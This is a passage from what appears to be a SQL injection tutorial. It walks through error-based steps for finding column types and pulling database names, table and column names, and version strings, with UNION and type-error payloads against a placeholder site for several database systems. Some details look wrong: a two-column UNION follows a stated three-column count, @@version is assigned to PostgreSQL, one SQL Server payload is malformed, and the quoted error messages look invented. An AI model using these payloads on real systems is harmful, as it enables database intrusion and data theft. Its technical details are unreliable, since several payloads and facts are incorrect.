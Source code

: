 This indicates the original query has **3 columns**. Attackers adjust their payload to match this count (e.g., `SELECT 1,2,3--`) to proceed.  

---

### **Step 3: Discover Data Types**  
By injecting incompatible data types into columns, attackers force type-mismatch errors that reveal column types. For instance:  
- **Numeric Column Test**:  
  ```  
  http://target.com/page?id=1' UNION SELECT 'a',2,3--  
  ```  
  If the error states *"Incorrect integer value: 'a' for column 'col2'..."*, column 2 is numeric.  

---

### **Step 4: Extract Schema Metadata**  
Once column details are known, attackers query metadata tables to enumerate schema elements:  

#### **Database Name**  
- **Payload (MySQL/PostgreSQL):**  
  ```  
  ' AND (SELECT database())='a'--  
  ```  
  The error may display the actual database name (e.g., *"Database name 'mydb' is not allowed..."*).  

#### **Table and Column Names**  
- **MySQL/PostgreSQL**:  
  ```  
  ' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS--  
  ```  
  If the query is malformed (e.g., missing a `WHERE` clause), the error might list table/column names.  

- **SQL Server**:  
  ```  
  ' SELECT * FROM sys.tables WHERE name='--  
  ```  
  An error like *"Invalid object name 'sys.tables WHERE name=''"*" may expose valid table names.  

#### **Version Disclosure**  
- **MySQL/PostgreSQL**:  
  ```  
  ' UNION SELECT @@version--  
  ```  
  The error might include the version string (e.g., *"10.5.12-MariaDB"*).  

- **Oracle**:  
  ```  
  ' AND (SELECT banner FROM v$version)=1--  
  ```  
  A type error could leak the version (e.g., *"Oracle Database 19c Enterprise Edition"*).  

---
